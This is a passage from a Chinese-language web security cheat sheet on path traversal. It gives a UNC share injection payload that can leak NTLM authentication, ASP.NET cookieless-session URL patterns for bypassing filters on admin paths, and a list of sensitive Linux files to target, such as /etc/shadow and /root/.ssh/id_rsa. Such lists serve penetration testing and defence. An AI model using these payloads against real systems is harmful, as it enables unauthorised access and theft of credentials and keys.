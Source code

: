 ### UNC共享

UNC(通用命名约定)共享是一种标准格式，用于以平台无关的方式指定网络上资源(如共享文件、目录或设备)的位置。它通常在Windows环境中使用，但也受其他操作系统支持。

攻击者可以将**Windows** UNC共享(`\\UNC\share\name`)注入到软件系统中，可能将访问重定向到非预期位置或任意文件。

```powershell
\\localhost\c$\windows\win.ini
```

此外，机器可能还会对此远程共享进行身份验证，从而发送NTLM交换。

### ASP.NET 无Cookie会话

当启用无Cookie会话状态时，ASP.NET不会依赖cookie来识别会话，而是通过将Session ID直接嵌入URL中来修改URL。

例如，典型的URL可能会从：`http://example.com/page.aspx` 转换为类似：`http://example.com/(S(lit3py55t21z5v55vlm25s55))/page.aspx`。`(S(...))`中的值是Session ID。

| .NET 版本   | URI                        |
| -------------- | -------------------------- |
| V1.0, V1.1     | /(XXXXXXXX)/               |
| V2.0+          | /(S(XXXXXXXX))/            |
| V2.0+          | /(A(XXXXXXXX)F(YYYYYYYY))/ |
| V2.0+          | ...                        |


我们可以利用此行为绕过过滤的URL。

* 如果您的应用程序位于主文件夹中

    ```ps1
    /(S(X))/
    /(Y(Z))/
    /(G(AAA-BBB)D(CCC=DDD)E(0-1))/
    /(S(X))/admin/(S(X))/main.aspx
    /(S(x))/b/(S(x))in/Navigator.dll
    ```

* 如果您的应用程序位于子文件夹中

    ```ps1
    /MyApp/(S(X))/
    /admin/(S(X))/main.aspx
    /admin/Foobar/(S(X))/../(S(X))/main.aspx
    ```

## 路径遍历

### Linux 文件

```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/self/environ
/root/.bash_history
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_rsa.keystore
/root/.ssh/id_rsa.pub
/var/log/secure
```